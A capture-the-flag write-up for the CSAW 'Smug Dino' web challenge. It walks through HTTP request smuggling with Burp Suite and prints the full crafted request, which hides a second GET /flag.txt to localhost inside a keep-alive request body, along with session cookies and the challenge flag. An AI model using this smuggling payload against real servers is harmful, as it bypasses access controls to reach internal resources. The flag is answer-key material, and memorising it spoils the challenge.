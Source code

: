 # Smug Dino

Given a page where we can access home, hint, and flag? page

if we access flag? page, we will be redirected to localhost:3009/flag.txt, which is not available. 

![Alt text](image1.png) 

From here, i believe what we need to do is a request smuggling, to confirm it, we can access the hint page and insert the server and it's version. Which give us a clue to a CVE report:

![Alt text](image2.png)

So i open my burpsuite to intercept the request and modify it. We intercept the request, send it to the repeater and play with the request.

Set the connection to 

``Connection: keep-alive``

and modify the body to a new HTTP request to /flag but the host is locahost

```
GET /flag HTTP/1.1
Host: web.csaw.io:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.csaw.io:3009/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: access_token_cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NDg2OTI1NSwianRpIjoiNTBkMWY0OWQtYTkwMC00NWMwLWIwZTUtMWFiZDg2NjM4MTRkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRqdW1AdXNlci5uZXQiLCJuYmYiOjE2OTQ4NjkyNTUsImV4cCI6MTY5NDg3MDE1NSwibWVtYmVyIjpmYWxzZX0.1qrON61s6GhP1d0dLEufowz4l5SroQ9iPBZn64P0OXA; connect.sid=s%3AMz4zbFYfXVaDdn0LurRfwxRbcmbWHHdy.%2F7G8VM3HrudBd5eSWJuejyVd74Ef9mtPcKEimOaQkhE
Connection: keep-alive
Content-Length: 43

GET /flag.txt HTTP/1.1
Host: localhost
```
we'll get this response:

![Alt text](image3.png) 

<h3>Flag: <i>csawctf{d0nt_smuggl3_Fla6s_!}</i></h3>

